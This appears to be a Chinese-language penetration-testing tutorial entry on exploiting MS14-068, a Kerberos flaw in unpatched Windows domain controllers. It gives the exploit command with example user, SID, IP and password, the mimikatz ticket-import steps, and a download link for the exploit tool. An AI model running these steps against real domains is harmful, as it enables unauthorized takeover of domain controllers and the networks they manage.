 ```yaml
---
title: 4.2.5 MS14-068
id: zhfly3431
---
```


### 4.2.5 MS14-068

MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁 是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。

*   1、 尝试直接访问域控的 C 盘

![image](../img/4a484bf40bbe83eae73a41c8adad4d92.png)

*   2、使用 ms14-068 的 exp，生成票据

```
C:\Users\jeff1\Desktop>MS14-068.exe -u jeff1@adtest.com -s S-1-5-21-3418659180-3 421952656-1938706522-1109 -d 192.168.19.100 -p test@124 
```

![image](../img/727e5961049bc7881c0cc2cb7d58cdd0.png)

*   3、 使用 mimilatz 导入生成的 ccache 文件，导入之前 cmd 下使用命令 klist purge 或者在 mimikatz 中使用 kerberos::purge 删除当前缓存的 kerberos 票据

![image](../img/b1632c7bbef4a8fd442ef66a8972af6d.png)

导入票据:

```
kerberos::ptc TGT_jeff1@adtest.com.ccache 
```

![image](../img/829ca8cd3f198ff9e4bfa7c29d89d71d.png)

4、 再次访问域控

![image](../img/c5fdbd90669d93a53543db666714f1eb.png)

MS14-068 下载地址:

https://github.com/ianxtianxt/MS14-068